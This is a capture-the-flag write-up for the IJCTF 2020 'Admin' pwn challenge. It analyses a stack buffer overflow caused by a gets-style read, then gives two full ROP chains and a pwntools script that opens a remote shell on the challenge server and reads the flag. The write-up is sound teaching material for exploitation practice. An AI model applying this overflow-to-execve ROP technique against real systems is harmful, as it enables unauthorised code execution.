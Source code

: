 # IJCTF 2020

## Admin

> 100
> 
> This admin thinks his system is very safe Is it actually safe? I say it's safe what do you think?
> 
> `nc 35.186.153.116 7002`
> 
> Challenge file: [https://github.com/linuxjustin/IJCTF2020/blob/master/pwn/admin](admin)
> 
> Author: zilikos

Tags: _pwn_ _bof_ _gets_ _remote shell_


### Analysis

#### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Few mitigations in place, basically no shellcode, everything else is fair game.


#### File

```
admin: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=0ee31668ec040c05db870d1fcef7e198c0a53d37, stripped
```

Statically linked relatively large binary.  ROP rich.


#### Decompile with Ghidra

```c
void FUN_00400b4d(undefined8 param_1,undefined *param_2)

{
  int iVar1;
  char *pcVar2;
  undefined local_48 [64];
  
  FUN_004104e0("Username: ",param_2);
  FUN_00410330(local_48,param_2);
  pcVar2 = "admin";
  iVar1 = thunk_FUN_004004ce(local_48);
  if (iVar1 == 0) {
    FUN_004104e0("Welcome admin",pcVar2);
  }
  else {
    FUN_0040f6b0("Bye %s\n",local_48);
  }
  return;
}
```

"`main`" looks pretty basic; 64-byte buffer (`local_48`), prompt for `Username:`, assume `FUN_00410330` reads input from stdin, and check for a match.

Assuming `FUN_00410330` is `gets`, test with:

```bash
# cyclic 100 | ./admin
Username:
Bye aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Segmentation fault
```

Probably `gets`.

Stack diagram from Ghidra:

```
undefined         AL:1               <RETURN>
undefined8        RDI:8              param_1
undefined *       RSI:8              param_2
undefined1        Stack[-0x48]:1     local_48                                
```

Buffer is `0x48` bytes above return address.  With large static binary and _No PIE_, attempt ROP.

#### ROP options

Both:

```bash
ropper --file admin --chain "execve cmd=/bin/sh" --badbytes 0a
```

and

```bash
ROPgadget --binary admin --ropchain
```

return ROP chains for a shell.  Time to test.


### Exploit

#### Send `0x48` bytes:

```python
#!/usr/bin/env python3

from pwn import *

#p = process('./admin')
p = remote('35.186.153.116', 7002)

#p.recvuntil('Username: \n')
payload = 0x48 * b'A'
```

> This works locally, but remotely I had to comment out the `recvuntil`--probably a buffering issue on their end.


#### Send ROP chain

Option A: (ropper):

```python
IMAGE_BASE_0 = 0x0000000000400000 # 09c2fc813db5d38d1a82c5049191b426ffcd29dfdc71bf33b5630dae57b2f56b
pp = lambda x : p64(x)
rebase_0 = lambda x : pp(x + IMAGE_BASE_0)

rop = b''
rop += rebase_0(0x000000000000da9b) # 0x000000000040da9b: pop r13; ret;
rop += b'//bin/sh'
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret;
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000068609) # 0x0000000000468609: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret;
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += rebase_0(0x000000000000da9b) # 0x000000000040da9b: pop r13; ret;
rop += pp(0x0000000000000000)
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret;
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000068609) # 0x0000000000468609: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret;
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret;
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000010193) # 0x0000000000410193: pop rsi; ret;
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x000000000004bcc6) # 0x000000000044bcc6: pop rdx; ret;
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000015544) # 0x0000000000415544: pop rax; ret;
rop += pp(0x000000000000003b)
rop += rebase_0(0x0000000000074d15) # 0x0000000000474d15: syscall; ret;
```

Option B: (ROPgadget):

```python
rop  = b''
rop += p64(0x0000000000410193) # pop rsi ; ret
rop += p64(0x00000000006b90e0) # @ .data
rop += p64(0x0000000000415544) # pop rax ; ret
rop += b'/bin//sh'
rop += p64(0x000000000047f321) # mov qword ptr [rsi], rax ; ret
rop += p64(0x0000000000410193) # pop rsi ; ret
rop += p64(0x00000000006b90e8) # @ .data + 8
rop += p64(0x0000000000444aa0) # xor rax, rax ; ret
rop += p64(0x000000000047f321) # mov qword ptr [rsi], rax ; ret
rop += p64(0x0000000000400686) # pop rdi ; ret
rop += p64(0x00000000006b90e0) # @ .data
rop += p64(0x0000000000410193) # pop rsi ; ret
rop += p64(0x00000000006b90e8) # @ .data + 8
rop += p64(0x0000000000449765) # pop rdx ; ret
rop += p64(0x00000000006b90e8) # @ .data + 8
rop += p64(0x0000000000444aa0) # xor rax, rax ; ret
rop += 59 * p64(0x0000000000474770) # add rax, 1 ; ret
rop += p64(0x000000000040123c) # syscall
```

Both `ropper` and `ROPgadget` output Python2 code, the above were converted for Python3.

> Both were tested.

Then:

```python
payload += rop

p.sendline(payload)
p.interactive()
```

Run it.

Output:

```
# ./exploit.py
[+] Opening connection to 35.186.153.116 on port 7002: Done
[*] Switching to interactive mode
$ ls
admin
bin
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
IJCTF{W3lc0m3_4g4in_d34r_AADMMIINN!!!}
```

#### Flag

```
IJCTF{W3lc0m3_4g4in_d34r_AADMMIINN!!!}
```
